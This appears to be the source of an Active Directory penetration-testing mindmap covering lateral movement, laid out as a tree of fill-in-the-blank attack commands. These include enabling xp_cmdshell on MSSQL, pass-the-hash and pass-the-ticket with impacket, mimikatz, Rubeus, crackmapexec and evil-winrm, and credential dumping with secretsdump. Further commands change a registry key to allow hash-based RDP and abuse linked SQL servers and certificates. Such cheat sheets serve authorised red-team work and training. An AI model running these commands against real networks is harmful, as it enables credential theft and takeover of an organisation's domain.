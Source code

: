 ### Lateral Move

WSUSpect
	WSUSpendu.ps1 # need compromised WSUS server

sccm admin
	abuse sccm
		CMPivot
		PowerSCCM
		SharpSCCM
		Administrator access

MSSQL
	find mssql access
		cme mssql <ip> -u <user> -p <password> -d <domain>
	Users with SQLadmin
		MATCH p=(u:User)-[:SQLAdmin]->(c:Computer) RETURN p
	EXECUTE sp_configure 'show advanced options', 1; RECONFIGURE;
		EXECUTE sp_configure 'xp_cmdshell', 1;  RECONFIGURE;
			EXEC xp_cmdshell '<cmd>'
			Low Access
	trust link
		Get-SQLServerLinkCrawl -username <user> -password <pass> -Verbose -Instance <sql_instance> -Query "<query>"
		use exploit/windows/mssql/mssql_linkcrawler
		MSSQL
	mssqlclient.py -windows-auth <domain>/<user>:<password>@<ip> (pr #1397)
		enum_db
		enable_xp_cmdshell
			xp_cmdshell <cmd>
			Low Access
		enum_impersonate
			exec_as_user <user>
			exec_as_login <login>
			MSSQL
		xp_dir_tree <ip>
		trustlink
			sp_linkedservers
				use_link
				MSSQL
		coerce  SMB ->

Local User
	cme smb -u <user> -p <pass>' <ip> --local-auth
	impacket like cleartext pasword without domain/
	Administrator access

Password
	Cleartext password
		interactive-shell
			psexec.py <domain>/<user>:<password>@<ip>
			psexec.exe -AcceptEULA \\<ip>
			mimikatz "privilege::debug sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<hash>"
		pseudo-shell (file write and read)
			atexec.py  <domain>/<user>:<password>@<ip> "command"
			smbexec.py  <domain>/<user>:<password>@<ip>
			wmiexec.py  <domain>/<user>:<password>@<ip>
			dcomexec.py  <domain>/<user>:<password>@<ip>
			crackmapexec smb <ip_range> -u <user> -p <password> -d <domain>
			crackmapexec smb <ip_range> -u <user> -p <password> -local-auth
			Authority/sytem
		WinRM
			evil-winrm -i <ip> -u <user> -p <password>
		RDP
			xfreerdp /u:<user> /d:<domain> /p:<password> /v:<ip>
		SMB
			smbclient.py <domain>/<user>:<password>@<ip>
				search files
		MSSQL
			crackmapexec mssql <ip_range> -u <user> -p <password>
			mssqlclient.py -windows-auth <domain>/<user>:<password>@<ip>
			MSSQL
NTLM Hash
	🔥 Pass the hash (PTH)
		interactive-shell
			psexec.py -hashes ":<hash>" <user>@<ip>
			psexec.exe -AcceptEULA \\<ip>
			mimikatz "privilege::debug sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<hash>"
			Authority/sytem
		pseudo-shell (file write and read)
			atexec.py -hashes ":<hash>" <user>@<ip> "command"
			smbexec.py -hashes ":<hash>" <user>@<ip>
			wmiexec.py -hashes ":<hash>" <user>@<ip>
			dcomexec.py -hashes ":<hash>" <user>@<ip>
			crackmapexec smb <ip_range> -u <user> -d <domain> -H ':<hash>'
			crackmapexec smb <ip_range>  -u <user> -H ':<hash>' --local-auth
			Authority/sytem
		WinRM
			evil-winrm -i <ip> -u <user> -H <hash>
		RDP
			reg.py <domain>/<user>@<ip> -hashes ':<hash>' add -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v 'DisableRestrictedAdmin' -vt 'REG_DWORD' -vd '0'
				xfreerdp /u:<user> /d:<domain> /pth:<hash> /v:<ip>
		SMB
			smbclient.py  -hashes ":<hash>" <user>@<ip>
				search files
		MSSQL
			crackmapexec mssql <ip_range> -H ':<hash>'
			mssqlclient.py -windows-auth -hashes ":<hash>" <domain>/<user>@<ip> 
			MSSQL
	overpass the hash / pass the key (PTK)
		Rubeus asktgt /user:victim /rc4:<rc4value>
			Rubeus ptt /ticket:<ticket>
			Rubeus createnetonly /program:C:\Windows\System32\[cmd.exe||upnpcont.exe]
				Rubeus ptt /luid:0xdeadbeef /ticket:<ticket>
		getTGT.py <domain>/<user> -hashes :<hashes>
		getTGT.py -aesKey '<key>' <domain>/<user>@<ip>

Kerberos
	Pass the ticket (ccache / kirbi)
		Convert format
			ticketConverter.py <kirbi||ccache> <ccache||kirbi>
		export KRB5CCNAME=/root/impacket-examples/domain_ticket.ccache
			impacket tools: Same as Pass the hash but use : -k and -no-pass for impacket
		mimikatz kerberos::ptc "<ticket>"
		Rubeus.exe ptt /ticket:<ticket>
		proxychains secretsdump -k'<domain>'/'<user>'@'<ip>'
		modify SPN
			tgssub.py -in <ticket.ccache> -out <newticket.ccache> -altservice "<service>/<target>"  #pr 1256
			Pass the Ticket
		Administrator access
		see dcsync

	aesKey
		impacket tools: Same as Pass the hash but use : -aesKey for impacket (and use FQDN)
		proxychains secretsdump -aesKey <key> '<domain>'/'<user>'@'<ip>'
		see dcsync
		Administrator access

Socks (with NTLM relay)
	proxychains lookupsid.py <domain>/<user>@<ip> -no-pass -domain-sids
	proxychains mssqlclient.py -windows-auth <domain>/<user>@<ip> -no-pass
	proxychains secretsdump -no-pass '<domain>'/'<user>'@'<ip>'
	pseudo-shell (file write and read)
		proxychains atexec.py  -no-pass  <domain>/<user>@<ip> "command"
		proxychains smbexec.py  -no-pass  <domain>/<user>@<ip>
		Authority/sytem
	proxychains smbclient.py -no-pass <user>@<ip>
		search files

Certificate (pfx)
	get hash NTLM from certificate
		certipy auth -pfx <crt_file> -dc-ip <dc_ip> ⇒ NTLM hash
	Pass the Certificate
		pkinit
			 gettgtpkinit.py -cert-pfx "<pfx_file>" ^[-pfx-pass  "<cert-password>"] "<fqdn_domain>/<user>" "<tgt_ccache_file>"
			Rubeus.exe asktgt /user:"<username>" /certificate:"<pfx_file>" [/password:"<certificate_password>"] /domain:"<fqdn-domain>" /dc:"<dc>" /show
			certipy auth -pfx <crt_file> -dc-ip <dc_ip>
		Schannel
			certipy auth -pfx <crt_file> -ldap-shell
				add_computer
					set_rbcd
					RBCD

